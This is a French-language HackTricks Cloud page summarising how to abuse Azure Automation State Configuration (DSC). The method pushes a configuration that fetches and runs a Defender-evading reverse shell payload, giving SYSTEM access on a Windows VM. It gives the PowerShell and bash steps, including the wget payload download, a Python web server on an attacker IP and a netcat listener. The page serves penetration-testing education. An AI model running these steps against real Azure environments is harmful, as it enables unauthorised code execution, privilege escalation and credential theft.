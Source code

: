 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Résumé de la préparation et des étapes de l'infrastructure de serveur distant (C2)

#### Vue d'ensemble

Le processus implique la mise en place d'une infrastructure de serveur distant pour héberger un payload modifié de Nishang `Invoke-PowerShellTcp.ps1`, nommé `RevPS.ps1`, conçu pour contourner Windows Defender. Le payload est servi depuis une machine Kali Linux avec l'IP `40.84.7.74` en utilisant un simple serveur HTTP Python. L'opération est exécutée à travers plusieurs étapes :

#### Étape 1 — Créer des fichiers

* **Fichiers requis :** Deux scripts PowerShell sont nécessaires :
1. `reverse_shell_config.ps1` : Un fichier de Configuration d'État Désiré (DSC) qui récupère et exécute le payload. Il est disponible sur [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1` : Un script pour publier la configuration sur la VM, disponible sur [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Personnalisation :** Les variables et paramètres dans ces fichiers doivent être adaptés à l'environnement spécifique de l'utilisateur, y compris les noms de ressources, les chemins de fichiers et les identifiants de serveur/payload.

#### Étape 2 — Compresser le fichier de configuration

* Le `reverse_shell_config.ps1` est compressé dans un fichier `.zip`, le rendant prêt pour le transfert vers le compte de stockage Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Étape 3 — Définir le contexte de stockage et télécharger

* Le fichier de configuration compressé est téléchargé dans un conteneur de stockage Azure prédéfini, azure-pentest, en utilisant la cmdlet Set-AzStorageBlobContent d'Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Étape 4 — Préparer la boîte Kali

* Le serveur Kali télécharge le payload RevPS.ps1 depuis un dépôt GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Le script est modifié pour spécifier la VM Windows cible et le port pour le reverse shell.

#### Étape 5 — Publier le fichier de configuration

* Le fichier de configuration est exécuté, ce qui entraîne le déploiement du script de reverse shell à l'emplacement spécifié sur la VM Windows.

#### Étape 6 — Héberger le payload et configurer l'écouteur

* Un Python SimpleHTTPServer est démarré pour héberger le payload, avec un écouteur Netcat pour capturer les connexions entrantes.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* La tâche planifiée exécute le payload, atteignant des privilèges de niveau SYSTEM.

#### Conclusion

L'exécution réussie de ce processus ouvre de nombreuses possibilités pour d'autres actions, telles que le dumping de credentials ou l'expansion de l'attaque à plusieurs VMs. Le guide encourage l'apprentissage continu et la créativité dans le domaine d'Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
